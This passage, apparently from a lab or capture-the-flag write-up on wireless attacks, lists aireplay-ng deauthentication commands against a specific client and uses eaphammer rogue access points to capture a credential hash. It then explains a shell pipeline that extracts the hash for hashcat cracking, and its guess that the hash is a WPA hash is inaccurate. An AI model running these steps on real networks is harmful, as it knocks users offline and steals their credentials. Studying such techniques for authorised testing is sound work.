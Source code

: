 using the commands

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:07:6C:40

in another shell

airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:07:6C:40
```

![image.png](image%2054.png)

After performing a deauth attack on the client with address `64:32:A8:07:6C:40` using two different rogueAPs that we had setup, we were able to get the hash that we can crack t get the password as shown below.

![image.png](image%2055.png)

the hash will be located in a logs directory under the eaphammer tool, where we can take it and get the hash alone using the syntax `cat /root/tools/eaphammer/logs/hostapd-eaphammer.log | grep hashcat | awk '{print $3}' >> hashcat.5500` 

-  `cat /root/tools/eaphammer/logs/hostapd-eaphammer.log` 
    - Reads and outputs the contents of the  Eaphammer log file .
-  `| grep hashcat` 
    - Filters the output, keeping only lines that contain the word  "hashcat"  (likely lines containing extracted WPA hashes).
-  `| awk '{print $3}'` 
    - Extracts the  third column (`$3`)  from each matching line.
    - This column probably contains the actual  WPA hash .
-  `>> hashcat.5500` 
    - Appends (`>>`) the extracted hashes to a file named  `hashcat.5500` .
    - If `hashcat.5500` does not exist, it is created.
